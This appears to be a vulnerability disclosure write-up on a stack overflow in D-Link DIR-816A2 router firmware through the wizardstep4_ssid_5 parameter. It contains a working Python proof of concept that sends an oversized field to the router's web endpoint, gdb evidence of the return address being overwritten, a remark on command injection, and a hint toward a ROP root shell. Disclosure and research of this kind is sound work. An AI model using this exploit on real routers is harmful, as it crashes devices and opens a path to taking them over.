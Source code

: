 # Affected Version

Dlink DIR-816A2\_FWv1.10CNB05.

# Vulnerability Description

Dlink DIR-816A2\_FWv1.10CNB05 was discovered to contain a stack overflow via parameter wizardstep4\_ssid\_5.

# Firmware download address

Manufacturer's address: <https://www.dlink.com/>

Firmware download address: [D-Link Technical Support (dlink.com.cn)](http://www.dlink.com.cn/techsupport/AllPro.aspx)

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/1.png?raw=true)

# Vulnerability Details

From the following, we can see that there are two places where our input parameters wizardstep4\_ssid\_2 and wizardstep4\_ssid\_5 are written into v25 respectively, and there is no length limit. Every time we write our parameters to v25, we perform a doSystem operation, which allows for command injection through both parameters, as we mentioned in the previous article.

Here we focus on v19 and v20, which are respectively written into v25 without length restrictions, which can cause stack overflow. Due to repeated writes into a buffer, we have decided to cause overflow when v20 is written into v25.

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/7.jpg?raw=true)

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/8.jpg?raw=true)

# Recurring vulnerabilities and POC

```python
import requests

url = "http://192.168.1.25/goform/dir_setWanWifi"

data = {
    'connecttype':'DHCP',
    'statuscheckpppoeuser':'0',
    'wizardstep4_ssid_2':'123456',
    'wizardstep4_ssid_5':'a'*1000
}

response = requests.post(url,data=data)
```

The following is the result in gdb after sending POC:

Firstly, execute sprintf to write parameter wizardstep4\_ssid\_5 to v25, corresponding to the circled part in IDA:

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/9.jpg?raw=true)

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/10.jpg?raw=true)

The result returned by sprintf is 0x3fe, indicating that our parameters were successfully written into v25.

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/11.jpg?raw=true)

Continuing with the following execution until the function reaches its end, it can be observed that the return address has been overwritten as' aaaa '.

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/12.jpg?raw=true)

Continuing to run will cause the program to crash.

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/13.jpg?raw=true)

Entering again will result in no response.

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/14.jpg?raw=true)

And you can write your own exp(ROP gadget) to get the root shell.
